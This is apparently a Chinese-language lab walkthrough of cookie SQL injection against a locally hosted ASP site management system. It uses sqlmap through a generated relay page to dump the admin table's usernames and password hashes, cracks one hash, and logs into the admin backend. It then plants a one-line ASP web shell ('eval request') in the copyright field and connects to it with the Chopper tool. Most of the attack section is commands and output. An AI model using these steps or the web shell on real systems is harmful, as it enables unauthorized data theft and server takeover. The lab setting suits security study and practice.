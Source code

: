 #### 环境装备
- Windows 8.1主机
	- ip:192.168.48.1
	- 超级小旋风建站
		- 192.168.48.1:8001  南方数据网站管理系统正式版5.0正式版
		- 192.168.48.1:8002  注入中转生成器生成的asp网站
	- 注入中转生成器
- kail 
	- ip: 192.168.48.129
	- sqlmap

#### 可能有用的链接

- [cookie注入原理以及利用(cookie中转注入)](http://blog.csdn.net/gscaiyucheng/article/details/19971837)
- [ 网络安全系列之八 Cookie注入（注入中转）](http://yttitan.blog.51cto.com/70821/1562382)
- [手工COOKIES注入及工具Cookies注入中转 ](http://tiannanyi.blog.163.com/blog/static/187359344201352052954459/)
- [利用SQLMap进行cookie注入](http://www.91ri.org/4714.html)

### 注入步骤

##### 1.尝试直接注入

```bash
root@kali:~# sqlmap -u http://192.168.48.1:8001/ProductShow.asp?ArticleID=60

省略n行
[20:16:24] [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. As heuristic test turned out positive you are strongly advised to continue on with the tests. Please, consider usage of tampering scripts as your target might filter the queries. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp'). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment')

[*] shutting down at 20:16:24

注入失败
```

##### 2.注入中转生成器生成注入页面

![中转生成器生成注入页面](http://asec.me/wp-content/uploads/2017/09/1.png)

**注意"post提交值"一定要用默认的"jmdcw="**

##### 3.将生成的`jmCook.asp`放到搭建的192.168.48.1:8002目录下

构建的注入点为: `http://192.168.48.1:8002/jmCook.asp?jmdcw=60`

##### 4.使用sqlmap猜表名

```bash
root@kali:~# sqlmap -u http://192.168.48.1:8002/jmCook.asp?jmdcw=60 --tables
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

******中间省略n行******                                      
[19:46:14] [INFO] tried 5/3154 items (0%)
[19:46:15] [INFO] retrieved: product                                                                                                                                                          
[19:46:18] [INFO] retrieved: admin                                                                                                                                                            
[19:46:20] [INFO] retrieved: news                                                                                                                                                             
[19:46:24] [INFO] retrieved: book                                                                                                                                                             
[19:46:27] [INFO] retrieved: links                                                                                                                                                            
[19:46:53] [INFO] retrieved: job                                                                                                                                                              
[19:47:01] [INFO] retrieved: vote                                                                                                                                                             
[19:47:12] [INFO] retrieved: email                                                                                                                                                          
[19:48:32] [INFO] retrieved: download                                                                                                        
[19:48:35] [INFO] retrieved: main                                                                                                               
Database: Microsoft_Access_masterdb
[11 tables]
+----------+
| user     |
| admin    |
| book     |
| download |
| email    |
| job      |
| links    |
| main     |
| news     |
| product  |
| vote     |
+----------+
[19:50:33] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.48.1'
```
获取字段:
```bash
sqlmap -u http://192.168.48.1:8002/jmCook.asp?jmdcw=60 -T admin --columns

Table: admin
[10 columns]
+------------+-------------+
| Column     | Type        |
+------------+-------------+
| key        | non-numeric |
| articleid  | numeric     |
| content    | non-numeric |
| id         | numeric     |
| password   | non-numeric |
| price      | numeric     |
| product_id | numeric     |
| title      | non-numeric |
| unit       | non-numeric |
| username   | non-numeric |
+------------+-------------+

```
获取admin表的username和password字段
```
root@kali:~# sqlmap -u http://192.168.48.1:8002/jmCook.asp?jmdcw=60 --tables --dump -T admin

省略n行:
Table: admin
[3 entries]

| username | password |
| admin    | 3acdbb255b45d296 |
| zhucebu  | a949f1be8de56824 |
| abc      | 3cd24fb0d6963f7d |
[21:11:48] [INFO] table 'Microsoft_Access_masterdb.admin' dumped to CSV file '/root/.sqlmap/output/192.168.48.1/dump/Microsoft_Access_masterdb/admin.csv'
[21:11:48] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.48.1'

[*] shutting down at 21:11:48

```
得到密码为 `3acdbb255b45d296`,解md5得 0791idc

![解3acdbb255b45d296md5](http://asec.me/wp-content/uploads/2017/09/2.png)

扫描得后台登录地址为: `http://192.168.48.1:8001/admin/Login.asp`

![解3acdbb255b45d296md5](http://asec.me/wp-content/uploads/2017/09/3.png)

进后台修改版权信息为一句话木马`"%><%eval request("abc")%><%'"`

![版权信息](http://asec.me/wp-content/uploads/2017/09/4.png)

菜刀连接:

![菜刀配置](http://asec.me/wp-content/uploads/2017/09/5.png)
![菜刀连接](http://asec.me/wp-content/uploads/2017/09/6.png)

